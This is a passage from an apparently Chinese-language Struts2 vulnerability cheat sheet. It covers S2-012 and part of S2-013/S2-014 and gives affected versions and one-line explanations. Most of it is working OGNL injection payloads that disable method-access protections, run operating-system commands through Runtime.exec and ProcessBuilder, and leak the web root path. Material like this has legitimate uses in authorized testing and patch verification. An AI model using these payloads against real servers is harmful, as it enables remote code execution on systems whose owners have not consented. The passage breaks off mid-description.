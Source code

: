 ```
person.name=(##context["xwork.MethodAccessor.denyMethodExecution"]= new java.lang.Boolean(false), ##_memberAccess["allowStaticMethodAccess"]= new java.lang.Boolean(true), @java.lang.Runtime@getRuntime().exec('open /Applications/Calculator.app'))(meh)&z[(person.name)('meh')]=true
```
用的是`person/new-person.action`这个控制器

######## 获取web根目录

```
person.name=%28%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%20new%20java.lang.Boolean%28false%29%2C%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23req%3D@org.apache.struts2.ServletActionContext@getRequest%28%29%2C%23outstr%3D@org.apache.struts2.ServletActionContext@getResponse%28%29.getWriter%28%29%2C%23outstr.println%28%27webpath%3A%27%2b%23req.getRealPath%28%22%2f%22%29%29%2C%23outstr.close%28%29%29%28meh%29&z%5B%28person.name%29%28%27meh%27%29%5D"
```
#### Struts2 S2-012

    影响版本: 2.0.0 - 2.3.13
    漏洞详情: https://cwiki.apache.org/confluence/display/WW/S2-012


Action 中 Result 时使用了重定向类型，并且还使用 ${param_name} 作为重定向变量,struts在获取其值时会执行OGNL表达式，从而造成命令执行

###### 构造PoC
######## 获取web根路径

```
%25%7B%28%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%29%28%23_memberAccess%5B%27allowStaticMethodAccess%27%5D%3Dtrue%29%28%23req%3D%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletRequest%27%29%2C%23response%3D%23context.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%2C%23response.println%28%27webpath%3A%27%2b%23req.getSession%28%29.getServletContext%28%29.getRealPath%28%27%2f%27%29%29%2C%23response.flush%28%29%2C%23response.close%28%29%29%7D
```

######## 执行系统命令

```
%25%7B%28%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%29%28%23_memberAccess%5B%27allowStaticMethodAccess%27%5D%3Dtrue%29%28%23a%3D%28new%20java.lang.ProcessBuilder%28%27whoami%27%29%29.start%28%29%2C%23b%3D%23a.getInputStream%28%29%2C%23c%3Dnew%20java.io.InputStreamReader%28%23b%29%2C%23d%3Dnew%20java.io.BufferedReader%28%23c%29%2C%23e%3Dnew%20char%5B50000%5D%2C%23d.read%28%23e%29%2C%23matt%3D%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27%29%2C%23matt.getWriter%28%29.println%28%27dbapp%3A%27%2bnew%20java.lang.String%28%23e%29%29%2C%23matt.getWriter%28%29.flush%28%29%2C%23matt.getWriter%28%29.close%28%29%29%7D%0A%0A
```
#### Struts2 S2-013/S2-014

    影响版本: 2.0.0 - 2.3.14.1
    漏洞详情: https://cwiki.apache.org/confluence/display/WW/S2-013,https://cwiki.apache.org/confluence/display/WW/S2-014


标签`s:url`和`s:a`中提供include参数，其参数值可以为

1. none - include no parameters in the URL (default)
2. get - include only GET parameters in the URL
3. all - include both GET and POST parameters in the URL
